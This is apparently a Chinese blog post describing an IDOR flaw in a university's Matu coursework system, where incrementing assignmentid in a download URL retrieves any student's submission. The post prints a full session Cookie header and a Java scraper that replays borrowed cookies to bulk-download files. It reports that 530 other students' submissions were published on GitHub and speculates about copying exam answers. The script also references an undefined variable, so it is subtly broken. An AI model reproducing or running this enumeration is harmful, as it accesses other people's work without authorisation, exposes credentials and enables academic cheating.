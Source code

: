 ```yaml
---
title: "怎么有人用码图啊"
date: 2021-09-20T15:57:28+08:00
draft: false
---
```




很久以前发现在浏览器里直接粘贴url就能自动下载码图提交的文件。而且是没有权限的，意味着你能下载到所有码图提交。而且对于请求次数也是没有限制的。

比如在已经登录码图的浏览器中复制这个url：http://matu.uestc.edu.cn/aptat/file/downloadassignmentfile?assignmentid=1038358

浏览器就会自动下载这个文件。

这时候就有人好奇了，把assignmentid改成1038357会怎么样？会下载到另一个人的提交，这一个提交是在你之前的最近一个提交。

最早的提交我看到id=72650，是2015年9月10号的提交，来自学号20140601xxxx的学长，题目是20_生成前n个自然数的一个随机置换。

那么能不能把所有的码图提交都下载下来呢？只要借助一个叫Open multiple url at one click的chrome插件，将你所想要下载的码图文件url贴进去，chrome就会给你下载了。

那么，假如我没有登录matu怎么办，或者我没有浏览器怎么办，又或是我能不能把码图的所有提交下载下来呢？

那应该怎么做呢，码图会拦截没有登录的请求，这时就要用cookies骗过matu了，借助代理软件，可以看到

get请求会带header，其中有cookie字段

```
Cookie:	JSESSIONID=ADCFAD008D39D46910DB82255253AD2E; III_EXPT_FILE=aa48738; III_SESSION_ID=d55956838bd4bf7c44eae6dbedc5d20a; SESSION_LANGUAGE=eng; zg_did=%7B%22did%22%3A%20%221784dfce5e2433-04d99af797b1f2-5771133-fa000-1784dfce5e3d03%22%7D; zg_=%7B%22sid%22%3A%201625496021694%2C%22updated%22%3A%201625496021698%2C%22info%22%3A%201625496021697%2C%22superProperty%22%3A%20%22%7B%7D%22%2C%22platform%22%3A%20%22%7B%7D%22%2C%22utm%22%3A%20%22%7B%7D%22%2C%22referrerDomain%22%3A%20%22eportal.uestc.edu.cn%22%2C%22cuid%22%3A%20%222019081305013%22%2C%22zs%22%3A%200%2C%22sc%22%3A%200%2C%22firstScreen%22%3A%201625496021694%7D; iPlanetDirectoryPro=tH0Ds91VHf5CpQJkwG4p3v
```

只要在请求头加上这个字段，就可以骗过拦截器了。

写了一个java程序

```Java
package matudownload;

import com.sun.net.httpserver.Headers;
import org.jsoup.Connection;
import org.jsoup.Jsoup;
import org.jsoup.nodes.Document;
import org.jsoup.nodes.Element;

import java.io.*;

public class downLoad {
    public static void download(String url,String filepath,String cookie)throws Exception {

            Connection con=Jsoup.connect(url);
            con.header("Cookie",cookie);
            Connection.Response res=con.method(Connection.Method.GET).execute();
         
            String head=res.header("content-disposition");
            String str=new String(head1.getBytes("ISO-8859-1"),"GBK");
            //注意http请求的header要求其中文必须为iso8859-1编码，此时需要转化成gbk编码
            str=str.toString().substring(21,str.length()-1);

            BufferedWriter bw = new BufferedWriter
                    (new OutputStreamWriter(new FileOutputStream(filepath)));
             bw.write(new String(res.body().toString()));
            bw.flush();
            bw.close();   
    }
   
    public static void main(String[] args) {
        try {
         String cookie="";
           //cookie需要你从已登陆matu的浏览器中获取 
            download("http://matu.uestc.edu.cn/aptat/file/downloadassignmentfile?assignmentid=1038000","D:/download",cookie);    
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```

我在github仓库上传了1038000-1038530的530个提交，大家可以参考别人的matu提交代码互相学习。

https://github.com/BachWV/matu/tree/main/allMatuCommit

至于部分码图考试能不能用这种方法抄到别人的提交，我不知道，也希望码图早日把这个漏洞给补上。

